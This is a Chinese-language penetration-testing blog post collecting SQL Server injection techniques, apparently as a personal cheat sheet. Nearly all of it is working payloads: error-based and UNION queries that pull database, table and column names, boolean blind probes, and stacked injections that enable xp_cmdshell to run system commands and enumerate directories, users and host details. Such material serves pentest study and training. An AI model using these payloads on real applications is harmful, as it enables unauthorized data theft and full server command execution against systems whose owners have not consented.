 +++
title = "SQL注入tips(SQL Server)"
topics = ["Pentest"]
tags = ["injection"]
description = "SQL Server注入常见的一些注入手法"
date = "2018-09-04T10:09:17+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2018-09-04 10:45:01
 * @LastEditTime: 2019-05-13 15:14:27
 -->
### 0x00 基础信息探测
```sql
@@VERSION,@@SERVERNAME,@@SERVICENAME;
--Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
--WIN-2008
--MSSQLSERVER

USER,CURRENT_USER,SESSION_USER,SYSTEM_USER;
--dbo
--dbo
--dbo
--sa

USER_NAME(),HOST_NAME(),HOST_ID(),SUSER_NAME();
--dbo
--wyb
--46530
--sa

USER_ID(),USER_SID();
--1
--<01>

ORIGINAL_LOGIN();
--sa
```

### 0x01 UNION query & error-based 注入
* 判断存在注入

```
and 1=1/and 1=2
```
```
select * from msg where id=1 and 11=(select case when(1=1) then 11 else 2 end);

select * from msg where id=1 and 11=(select case when(1=2) then 11 else 2 end);
```

* 判断是否为sa权限
![55](/img/post/20180904-105516.png)

* 得到所有数据库名字
![75](/img/post/20180904-110306.png)
```
--报错得到数据库名，前6个是系统自带的数据库，所以从第7个开始，dbid依次增加即可得到所有数据库
select id,name from msg where id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=7);
```
![75](/img/post/20180904-151240.png)

* 得到数据库test的所有表名（用户创建的表xtype的值是U）
![70](/img/post/20180904-111912.png)

```
--得到数据库test的第一张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U';

--得到数据库test的第二张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in ('article');
```
![80](/img/post/20180904-151551.png)

* 得到数据库test的表article的所有列名
    * 可以分两步：先得到article的表id，然后得到列名
    ![60](/img/post/20180904-112859.png)
    ![75](/img/post/20180904-112938.png)

    * <f>也可直接一条命令直接得到列信息</f>
    ```
    select id,name from syscolumns where id=(select id from sysobjects where name='msg');
    ```

* 得到数据库test的表article的数据
![75](/img/post/20180904-113720.png)

### 0x02 boolean-based blind 注入
```
?id=1 and substring(db_name(),1,1)='a' --
?id=1 and substring(db_name(),1,1)='b' --
```

```
?id=1 and unicode(substring((select db_name()),1,1))>88 --
```

### 0x03 Stacked 注入
* 执行系统命令

```bash
#判断xp_cmdshell是否被删除
?id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell');

#开启xp_cmdshell
?id=1;exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;--

#使用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami';
```

* 文件操作

```
#列目录、文件
exec master..xp_dirtree 'c:\wwwroot',1 #列c:\wwwroot下的文件夹 
exec master..xp_dirtree 'c:\wwwroot',1,1 #列c:\wwwroot下的文件夹和文件

exec master..xp_subdirs 'c:\wwwroot' #列c:\wwwroot下的文件夹

#显示系统可用盘符
exec master..xp_availablemedia
```

* 主机、中间件信息

```
#获得MS SQL的版本号
exec master..sp_msgetversion

#列出服务器上所有windows本地用户组
exec master..xp_enumgroups

#得到当前sql server服务器的计算机名称
exec master..xp_getnetname

#服务器安全模式信息
exec master..xp_loginconfig
```
